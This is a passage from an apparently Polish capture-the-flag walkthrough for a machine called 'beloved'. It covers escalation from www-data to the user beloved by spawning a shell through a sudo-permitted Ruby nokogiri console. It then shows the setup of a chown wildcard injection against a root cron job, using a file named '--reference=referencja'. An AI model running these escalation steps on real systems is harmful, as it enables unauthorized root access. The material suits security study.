 Wszysto działa, jesteśmy na konsoli, ale co dalej? Z wcześniejszego rozeznania widać, że jesteśmy na koncie **www-data**, ale w systemie prawdopodobnie są konta z dostępem do **Shell**a. Sprawdźmy to:
{: .text-justify}
```bash
# www-data@beloved:/var/www/html/wordpress$ sudo -l
```
```console
Matching Defaults entries for www-data on beloved:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on beloved:
    (beloved) NOPASSWD: /usr/local/bin/nokogiri
```
Użytkownik **beloved** ma dostęp do pliku **/usr/local/bin/nokogiri**. Od razu powiem, że program jest napisany w **Ruby**.
{: .text-justify}
```bash
# sudo -u beloved /usr/local/bin/nokogiri /etc/hosts
```
```ruby
Your document is stored in @doc...
irb(main):001:0> system "/bin/bash"
system "/bin/bash"
```
# 07. Root
Chcemy więcej, chcemy **root**a. Ściągnałem program [pspy64](https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64), który nam powie, czy coś ciekawego się dzieje w systemie. Po chwili czekania dostaliśmy coś takiego:
{: .text-justify}
```
2021/10/01 14:09:01 CMD: UID=0    PID=31417  | /bin/sh -e /usr/lib/php/sessionclean
2021/10/01 14:09:01 CMD: UID=0    PID=31418  | /bin/sh -e /usr/lib/php/sessionclean
2021/10/01 14:10:01 CMD: UID=0    PID=31422  | /usr/sbin/CRON -f
2021/10/01 14:10:01 CMD: UID=0    PID=31421  | /usr/sbin/CRON -f
2021/10/01 14:10:01 CMD: UID=0    PID=31423  | /bin/sh -c cd /opt && chown root:root *
```
Wchodzimy do **/opt**
{: .text-justify}
```bash
# cd /opt
```
```console
drwxrwx---  2 root    beloved 4096 Sep 30 11:31  .
drwxr-xr-x 18 root    root    4096 May 19 10:09  ..
-rw-------  1 root    root    1823 Jun 27 16:41  id_rsa
```
Widzimy plik **id_rsa**, którego właścicielem jest **root**. Ze wcześniejszych informacji, dzięki programowi **Psy64** się dowiadujemy, że co jakiś czas plikowi jest nadawany ten sam właściciel **root**. Warto zwrócić uwagę na "*" za **root**em. I to wykorzystamy. Jak ta podatność działa to jest opisane dokładnie [tutaj](https://materials.rangeforce.com/tutorial/2019/11/08/Linux-PrivEsc-Wildcard/). W skrócie napiszę, że zostanie wykorzystany parametr **--reference** z programu **chown**. Parametr ten "kopiuje" status właściciela stworzonego pliku do innego pliku. Aby to zadziałało w naszym przypadku należy w katalogu **/opt** stworzyć np. 2 pliki **"--reference=referencja"** i w tym wypadku drugi plik to **referencja**. Nazwałem go tak, żeby to wszystko trochę odróżnić. Jednak może mieć dowolną nazwę. Pamiętać jednak trzeba, żeby też było do niego odpowiednie odwołanie w pliku **--reference**. Całą operację radzę zrobić chwilę po pełnej minucie, nie przed nią. Ważne żeby plik **referencja** nie dostał od razu właściciela **root**a, a był nim **beloved**. Trochę to zawiłe, więc napiszę jak to wszystko wygląda.
{: .text-justify}
```bash
# touch referencja
# touch -- --reference=referencja
```